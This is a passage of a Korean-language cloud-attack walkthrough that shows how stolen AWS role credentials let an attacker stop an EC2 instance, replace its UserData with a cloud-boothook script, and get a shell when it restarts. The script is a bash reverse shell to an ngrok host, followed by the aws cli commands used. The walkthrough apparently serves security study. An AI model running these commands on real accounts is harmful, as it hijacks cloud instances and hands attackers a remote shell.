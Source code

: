 ## 5. Instance UserData를 이용한 쉘 탈취

다음은 탈취한 인증 정보(stolen_role)를 이용해 Instance의 쉘을 탈취하는 공격입니다. 

Instance 사용자 데이터(UserData)는 instance를 중지한 후, 수정할 수 있습니다. instance의 사용자 데이터를 수정한 후, instance를 다시 시작할 때 업데이트된 사용자 데이터가 실행되도록 설정을 구성할 수 있습니다.  

따라서, 공격자는 사용자 데이터에 쉘 스크립트를 삽입하고 이를 실행시켜 Instance의 쉘을 탈취할 수 있습니다.

1. 앞서 탈취한 인증 정보(stolen_role)를 이용해 **Instance 중지**
    
    `aws ec2 stop-instances --instance-ids [instance-id] --profile stolen_role`
    
    ![Untitled](/assets/2022-11-01/Untitled%2010.png)
    
2. 1) 사용자 데이터에 삽입할 **쉘 스크립트 생성**
    
    ```bash
    #cloud-boothook
    #!/bin/bash
    bash -i >& /dev/tcp/0.tcp.jp.ngrok.io/19984 0>&1
    ```
    
    → Instance를 시작할 때마다 업데이트된 사용자 데이터가 자동으로 실행되지 않으므로, #cloud-boothook을 적어주어야 사용자 데이터가 실행됨
    
    **2) base64 인코딩** : `base64 rev_udata.sh > rev_udata64.sh`
    
3. **Instance 사용자 데이터 수정** : `aws ec2 modify-instance-attribute --instance-id=[instance-id] --attribute userData --value file://rev_udata64.sh --profile stolen_role`
4. **Instance 시작** : `aws ec2 start-instances --instance-ids [instance-id] --profile stolen_role`
    
    ![Untitled](/assets/2022-11-01/Untitled%2011.png)
    